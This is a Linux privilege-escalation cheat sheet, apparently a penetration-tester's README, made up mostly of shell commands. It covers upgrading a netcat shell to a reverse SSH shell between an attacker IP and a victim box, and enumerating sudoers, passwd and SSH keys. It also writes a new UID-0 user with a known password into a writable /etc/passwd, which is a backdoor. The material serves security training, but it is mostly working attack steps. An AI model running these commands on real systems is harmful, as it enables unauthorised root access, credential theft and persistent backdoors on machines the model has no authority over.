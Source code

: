 ## Enumeration is the key

What is your path to root?

- https://sirensecurity.io/blog/linux-privilege-escalation-resources/
- https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/


### Upgrading a low-priv shell

Using Python3:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
export TERM=xterm-256color
alias ll='ls -lsaht --color=auto'
Ctrl + Z [Background Process]
stty raw -echo ; fg ; reset
stty columns 200 rows 200
```

Upgrading a netcat shell to a fully interactive ssh shell:

- https://github.com/Fahrj/reverse-ssh#build-tricks

on the attacker box:

```bash
./reverse-sshx64 -v -l 192.168.49.65:80
```

on the victim box:

```bash
./reverse-sshx64 -v -p 80 192.168.49.65
```

connect to your shell:

```bash
ssh kali@localhost -p 80
Password: letmeinbrudipls
```

## System Enumeration

Checking compilation capabilities:

```bash
which gcc
which cc
which python
which perl
```

Checking file-transfer capabilities:

```bash
which wget
which curl
which nc
ls -lsaht /bin/ |grep -i 'ftp' --color=auto
```

Checking the kernel/release version:

```bash
cat /etc/issue
cat /etc/*-release
```

Are we a sudo user?

```bash
sudo -l
cat /etc/sudoers
```

Checking environment variables:

```bash
env
cat /etc/profile
cat /etc/bashrc
cat ~/.bash_profile
cat ~/.bashrc
cat ~/.bash_logout
```

Checking system processes:

```bash
ps aux
ps -ef
```

Checking system users:

```bash
cat /etc/passwd
cd /home && ls -lsaht
```

Finding SUID binaries:

```bash
find / -perm -u=s 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```

Finding GUID binaries:

```bash
find / -perm -g=s 2>/dev/null
find / -user root -perm -g=s -exec ls -ldb {} \; 2>/dev/null
```

Checking network services:

```bash
netstat -tulpn
ss -tulpn
```

Checking for MySQL unauthorized access:

```bash
mysql -u root -p
```

Checking user-level configurations:

```bash
cd /etc
ls -lsaht
ls -lsaht |grep -i '.conf' --color=auto
```

Searching for SSH keys:

```bash
ls -lsaR /home/
```

Finding writable directories:

```bash
/var/tmp/
/tmp/
```

Finding writable files:

```bash
find / -perm -2 ! -type l -ls 2>/dev/null
```

Finding writable files owned by root:

```bash
find / -perm -2 ! -type l -ls 2>/dev/null |grep root |grep -v "/proc/"
```

Checking unusual system mounts:

```bash
cat /etc/fstab
```

Checking writable /etc/passwd file:

```bash
openssl passwd -1
i<3hacking
$1$/UTMXpPC$Wrv6PM4eRHhB1/m1P.t9l.
echo 'totekuh:$1$/UTMXpPC$Wrv6PM4eRHhB1/m1P.t9l.:0:0:totekuh:/home/totekuh:/bin/bash' >> /etc/passwd
su totekuh
id
```

Checking cron jobs:

```bash
crontab –u root –l
cat /etc/crontab
ls /etc/cron.*
```

Looking for every single file created by the given user:

```bash
find . -iname 'USER' 2>/dev/null
```

Any mails?
```bash
cd /var/mail/
ls -lsaht
```

Checking capabilities of a process
- https://nxnjz.net/2018/08/an-interesting-privilege-escalation-vector-getcap/
- https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities

```bash
cat /proc/1234/status | grep Cap
capsh --decode=0000003fffffffff
```

## Resources

### SUID Unix Binaries Abuse

- https://gtfobins.github.io/

### Escalation Using PATH Variable

- https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/

### Unprivileged Linux Process Snooping 

- https://github.com/DominicBreuker/pspy/

### Attacking NFS Shares

- https://recipeforroot.com/attacking-nfs-shares/

### Escalation Awesome Script

- https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS

### Escalation Exploit

- https://github.com/liamg/traitor

